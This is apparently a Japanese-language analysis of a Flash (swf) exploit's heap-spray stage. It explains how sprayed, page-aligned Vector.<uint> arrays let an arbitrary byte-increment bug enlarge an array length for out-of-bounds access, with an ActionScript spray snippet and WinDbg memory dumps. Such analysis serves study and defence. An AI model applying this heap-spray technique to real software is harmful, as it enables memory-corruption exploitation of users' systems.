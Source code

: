  
はじめに、HTML に埋め込まれた EMBED タグによって、swf ファイルがロードされて実行されます。このとき実行されるのは AsXploit クラスのコンストラクターで、そこから呼ばれる init_heap() が Heap Spray を行います。前回見たように、脆弱性によって「書き込み可能な任意の場所の Byte 値をインクリメント」することが可能です。これを利用し、配列の長さを保存している DWORD 値の最上位バイトをインクリメントさせて、本来アクセスできないメモリ領域にも配列経由でアクセスできるようにするのが目的です。Heap Spray の wiki を見ると、NOP slide などのように実行可能なコードをスプレーする手法が書かれていますが、DEP による防御があるので、現在は (少なくとも exploit の最初の段階では) 使えません。

 
```
/* Spray the integer array */ 
this.s = new Vector.(0x18180); 
while (len < 0x18180) { 
  this.s[len] = new Vector.<uint>(0x1000 / 4 - 16); 
  for (i=0; i < this.s[len].length; i++) { 
    this.s[len][i] = 0x1a1a1a1a; 
  } 
  ++len; 
} 
```
 
上記コードでのポイントは配列の長さ0x1000 / 4 - 16 (=3f0) です。これによって、各 Vector.&lt;uint&gt; がページの先頭にアラインされるようになります。/4 しているのは uint が 4 バイトからです。実際のデータである0x1a1a1a1a の前に、配列の長さである 000003f0 と、下記の例でいえば 07c53000 という DWORD 値が存在するので -2、-16 しているので実データの後にある 56 バイト (^14 * sizeof(uint)) が余ります。これが使われているかどうかは不明。 0x18180 と0x1a1a1a1a は何でもいいはずです。これにより、先頭が 3f0 で始まるページが 0x18180 個できました。

 
```
0:028> dd 09151000-40 
09150fc0  1a1a1a1a 1a1a1a1a 00000000 00000000 
09150fd0  00000000 00000000 00000000 00000000 
09150fe0  00000000 00000000 00000000 00000000 
09150ff0  00000000 00000000 00000000 00000000 
09151000  000003f0 07c53000 1a1a1a1a 1a1a1a1a 
09151010  1a1a1a1a 1a1a1a1a 1a1a1a1a 1a1a1a1a 
09151020  1a1a1a1a 1a1a1a1a 1a1a1a1a 1a1a1a1a 
09151030  1a1a1a1a 1a1a1a1a 1a1a1a1a 1a1a1a1a 
0:028> dd 09152000-40 
09151fc0  1a1a1a1a 1a1a1a1a 09151fc0 00000000 
09151fd0  09151fc8 00000000 09151fd0 00000000 
09151fe0  09151fd8 00000000 09151fe0 00000000 
09151ff0  09151fe8 00000000 09151ff0 00000000 
09152000  000003f0 07c53000 1a1a1a1a 1a1a1a1a 
09152010  1a1a1a1a 1a1a1a1a 1a1a1a1a 1a1a1a1a 
09152020  1a1a1a1a 1a1a1a1a 1a1a1a1a 1a1a1a1a 
09152030  1a1a1a1a 1a1a1a1a 1a1a1a1a 1a1a1a1a 
0:028> dd 09153000-40 
09152fc0  1a1a1a1a 1a1a1a1a 00000000 00000000 
09152fd0  00000000 00000000 00000000 00000000 
09152fe0  00000000 00000000 00000000 00000000 
09152ff0  00000000 00000000 00000000 00000000 
09153000  000003f0 07c53000 1a1a1a1a 1a1a1a1a 
09153010  1a1a1a1a 1a1a1a1a 1a1a1a1a 1a1a1a1a 
09153020  1a1a1a1a 1a1a1a1a 1a1a1a1a 1a1a1a1a 
09153030  1a1a1a1a 1a1a1a1a 1a1a1a1a 1a1a1a1a
```
 